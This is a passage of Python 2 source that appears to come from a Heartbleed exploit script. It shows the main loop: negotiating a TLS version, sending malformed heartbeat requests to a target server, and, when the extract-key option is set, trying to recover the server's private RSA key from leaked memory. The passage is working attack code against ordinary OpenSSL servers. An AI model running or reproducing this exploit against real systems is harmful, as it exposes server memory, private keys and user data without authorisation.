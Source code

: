                         s.close()

                        s = conn(targ, port)

                        break

                    if typ == 22 and ord(message[0]) == 0x0E:

                        if firstrun:

                            print 'Received Server Hello for {}'.format(tlsver)

                        supported = True

                        break

                if supported: break



            if not supported:

                print '\nError! No TLS versions supported!'

                print '##################################################################'

                return



            if opts.verbose:

                print '\nSending heartbeat request...'

            sys.stdout.flush()

            

            keyfound = False

            if opts.extractkey:

            	res = hit_hb(s, targ, firstrun, supported)

            	if res == '':

            	    continue

            	keyfound = extractkey(targ, res, modulus)

            else:

	            res += hit_hb(s, targ, firstrun, supported)

            s.close()

            if keyfound:

                sys.exit(0)

            else:

                sys.stdout.write('\rPlease wait... connection attempt ' + str(x+1) + ' of ' + str(opts.num))

                sys.stdout.flush()

        
